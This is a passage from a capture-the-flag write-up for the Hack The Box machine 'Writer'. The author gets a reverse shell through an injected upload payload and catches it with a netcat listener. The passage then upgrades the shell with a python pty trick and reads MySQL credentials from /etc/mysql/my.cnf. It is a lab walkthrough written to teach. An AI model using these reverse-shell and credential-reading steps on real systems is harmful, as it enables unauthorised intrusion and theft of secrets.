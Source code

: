 Here we've used the file path we worked out before, and added our already uploaded image to the image_url section using it. When you click Forward in Burp that added extra gets executed by the web server, so make sure you have a netcat listener waiting on the port you used earlier when creating the string.

## WWW-data Shell

After the upload switch to netcat to see we have a shell connected:

```text
┌──(root💀kali)-[~/htb/writer]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.15.27] from (UNKNOWN) [10.10.11.101] 53962
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ 
```

Upgrade terminal before we carry on:

```text
www-data@writer:/$ which python
which python
www-data@writer:/$ which python3
which python3
/usr/bin/python3

www-data@writer:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@writer:/$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/writer]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337

www-data@writer:/$ export TERM=xterm
www-data@writer:/$ stty rows 52 cols 237
```

Looking around I found a mysql folder in /etc:

```sh
www-data@writer:/etc/mysql$ ls -lsa
4 drwxr-xr-x   2 root root 4096 May 18 15:51 conf.d
4 -rwxr-xr-x   1 root root 1620 May  9 18:20 debian-start
4 -rw-------   1 root root  261 May 18 15:51 debian.cnf
4 -rw-r--r--   1 root root  972 May 19 12:34 mariadb.cnf
4 drwxr-xr-x   2 root root 4096 May 18 15:51 mariadb.conf.d
0 lrwxrwxrwx   1 root root   24 May 18 15:51 my.cnf -> /etc/alternatives/my.cnf

www-data@writer:/etc/mysql$ cat my.cnf
<SNIP>

[client]
database = dev
user = djangouser
password = <HIDDEN>
default-character-set = utf8
```
